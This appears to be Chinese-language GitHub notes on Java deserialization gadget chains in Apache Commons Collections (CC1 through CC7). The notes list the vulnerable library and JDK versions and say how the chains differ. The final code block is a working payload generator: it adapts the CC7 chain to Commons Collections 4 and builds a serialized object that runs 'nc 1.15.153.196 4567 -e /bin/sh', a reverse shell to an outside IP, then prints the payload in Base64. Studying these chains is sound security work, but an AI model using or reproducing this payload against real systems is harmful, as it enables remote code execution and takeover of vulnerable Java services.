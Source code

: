 
CommonsCollections包为Java标准的CollectionsAPi提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。让我们在开发应用程序的过程中，既保证了性能，同时也能大大简化代码。
简称cc，第三方依赖库，被许多组件和项目所依赖，cc在很多项目或者组件中都有使用，
然而3和4相关版本存在反序列化利用链（Gadget）当出现反序列化入口时候，就存在反序列化漏洞。
Web和网络安全中"Gadget"一词通常指的是可以被利用来进行攻击的对象或代码片段。

## **环境**
CommonsCollections版本为3.2.1时漏洞最多。
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```
java老版本下载：<https://blog.lupf.cn/articles/2022/02/19/1645283454543.html> 密码8899
复现环境配置：<https://www.freebuf.com/articles/web/383152.html>

安装jdk<=8u65，解压里面的src.zip。
安装jdk8源码，复制里面sun(jdk-af660750b2f4\src\share\native\sun)目录到刚刚解压的src目录下，这样可以跟踪jdk源码。


## **要求**
CC1链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>常见jdk=8u65进行复现。

CC6链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>这条链是基于CC1，只是入口类改了，入口类为hashMap。CC6=CC1+URLDNS。


CC3链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>CC1 链与 CC6 链是通过 Runtime.exec() 进行命令执行的。而很多时候服务器的代码当中的黑名单会选择禁用 Runtime。​
CC3 链则是通过动态加载类加载机制来实现自动执行恶意类代码的。

CC4链：java<=JDK8u71(1.8.0_71)、CommonsCollections=4
>因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化​。
CC4链找到InvokerTransformer的替换。

CC2链：java<=JDK8u71(1.8.0_71)、CommonsCollections=4
>CC2链是在CC4链的基础上修改。

CC7链：java<=JDK8u71(1.8.0_71)、commons-collections:<=3.2.1
CC5链：java<=JDK8u71(1.8.0_71)、commons-collections:<=3.2.1

^
CC7链改成适用CommonsCollections=4
```
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"nc 1.15.153.196 4567 -e /bin/sh"})
        };
        Transformer transformerChain2 = new ChainedTransformer(transformers);

        //使用Hashtable来构造利用链调用LazyMap
        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap1 = declaredConstructor.newInstance(hashMap1, transformerChain2);
        DefaultedMap defaultedMap2 = declaredConstructor.newInstance(hashMap2, transformerChain2);

        defaultedMap1.put("yy", 1);
        defaultedMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(defaultedMap1, 1);
        hashtable.put(defaultedMap2, 1);
        defaultedMap2.remove("yy");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        String payload = new String(Base64.getEncoder().encode(baos.toByteArray()));
        System.out.println(payload);

```